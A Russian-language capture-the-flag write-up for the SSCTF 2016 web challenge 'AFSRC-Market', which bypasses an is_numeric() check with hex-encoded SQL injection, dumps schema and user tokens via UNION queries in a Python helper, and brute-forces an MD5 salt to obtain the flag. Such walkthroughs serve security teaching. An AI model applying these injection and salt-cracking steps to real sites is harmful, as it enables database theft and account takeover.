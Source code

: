 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
---

![alt-text][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт и
происходит редирект на страницу входа.
При нажатии на сами товары просиходит переход по ссылке `https://security.alipay.com/`.

![alt-text][alert_msg]

![alt-text][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации.

![alt-text][register_page]

Попробуем зарегистрировать какого-либо пользователя.

![alt-text][reg_success]

![alt-text][try_login]

Видим сообщение об успешной регистрации и нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![alt-text][login_success]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска как и раньше не функционирует.
Заметим, что после авторизации в cookie была добавлена единственное значение PHPSESSID - идентификатор сессии в PHP.
Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` какой-нибудь номер.
После этого окрывается домашняя страница и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении,
при вводе символов, не являющихся цифрами, выдается сообщние об ошибке. Также допистим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id` скорее всего проверяетя с помощью PHP функции `is_numeric()` перед вставкой в запрос.

![alt-text][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третяя содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибе. Также внимание привлекает
строка `The Last cost: 0`, попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX` при указании верного числа в `id` значение принимает случайное ненулевое значение. Если `id=0x123456` или другой случайный hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то оразом зависит от параметра `id` при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex, попробует совершить простую "is_numeric bypass" sql-иньекцию через параметр `id`. Для генерации hex-значение воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![alt-text][try_simple_inj]

![alt-text][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследование напишем функцию на Python, которая будет
отправлять нужный запрос, и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы данных.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![alt-text][form_source]

Видим, что в форме есть скрытый параметр `salt`, осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся для пользователя.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и видем результат: `Salt = 8b76d`. Добавим её в форму пополнения счета.

![alt-text][flag_is]

Получаем флаг!

[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Главная страница"
[alert_msg]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Предупреждение"
[login_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница входа"
[register_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница регистрации"
[reg_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Успешная регистрация"
[try_login]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка войти"
[login_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Вход прошел успешно"
[user_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница пользователя"
[try_simple_inj]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Результат sql-иъекции"
[form_source]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Исходный код формы пополнения счета"
[flag_is]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Флаг"
